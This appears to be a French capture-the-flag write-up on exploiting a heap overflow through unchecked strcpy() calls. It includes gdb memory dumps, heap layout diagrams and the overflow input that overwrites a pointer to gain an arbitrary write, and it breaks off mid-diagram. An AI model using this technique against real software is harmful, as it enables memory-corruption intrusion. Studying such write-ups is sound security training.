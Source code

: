 Pour cela, nous allons exploiter le fait que les strcpy() ne soient pas protégés: en cas de buffer overflow du premier, on peut venir écrire sur le premier argument du second strcpy(): l'adresse ou il va écrire la valeur qu'on lui donne en argv[2].

### Explications

On va dessiner la heap en se servant du debugging dans le fichier source:
- On copie le source.c dans tmp, on le gdb et on lance `./a.out aaaa bbbb`:
  ```
  
  a	(0xbffff718)	=	0x804b008
  a[0]	(0x804b008)	=	1
  a[1]	(0x804b00c)	=	0x804b018


  b	(0xbffff71c)	=	0x804b028
  b[0]	(0x804b028)	=	2
  b[1]	(0x804b02c)	=	0x804b038

  strcpy(0x804b018, aaaa)

  a	(0xbffff718)	=	0x804b008
  a[0]	(0x804b008)	=	1
  a[1]	(0x804b00c)	=	0x804b018


  b	(0xbffff71c)	=	0x804b028
  b[0]	(0x804b028)	=	2
  b[1]	(0x804b02c)	=	0x804b038

  strcpy(0x804b038, bbbb)
  ```
- En dessinant la heap:
  ```
  ------------------------ 0x804b040 -------------------------------------
    malloc de b[1]
  ------------------------ 0x804b03c -------------------------------------
    malloc de b[1]
  ------------------------ 0x804b038 (&b[1], b[1][0]) --------------------
  ------------------------ 0x804b034 -------------------------------------
  ------------------------ 0x804b030 -------------------------------------
    0x804b038 (adresse du malloc de b[1]) <= c'est lui qu'on veut override
  ------------------------ 0x804b02c (b[1]) ------------------------------
    2
  ------------------------ 0x804b028 (&b, b[0]) ---------------------------
  ------------------------ 0x804b024 --------------------------------------
  ------------------------ 0x804b020 --------------------------------------
   malloc de a[1]
  ------------------------ 0x804b01c --------------------------------------
   malloc de a[1] <= C'est lui qu'on fait overflow
  ------------------------ 0x804b018 (&a[1], a[1][0]) ---------------------
  ------------------------ 0x804b014 --------------------------------------
  ------------------------ 0x804b010 --------------------------------------
    0x804b018 (adresse du malloc de a[1])
  ------------------------ 0x804b00c (a[1]) -------------------------------
    1
  ------------------------ 0x804b008 (&a, a[0]) ---------------------------
  ```
- On veut overflow depuis 0x804b018 jusqu'à écrire dans 0x804b02c, donc avec 20 * "A" + "BBBB" en argv[1], on obtient cette heap:
  ```
  ------------------------ 0x804b040 -------------------------------------
    malloc de b[1]
  ------------------------ 0x804b03c -------------------------------------
    malloc de b[1]
  ```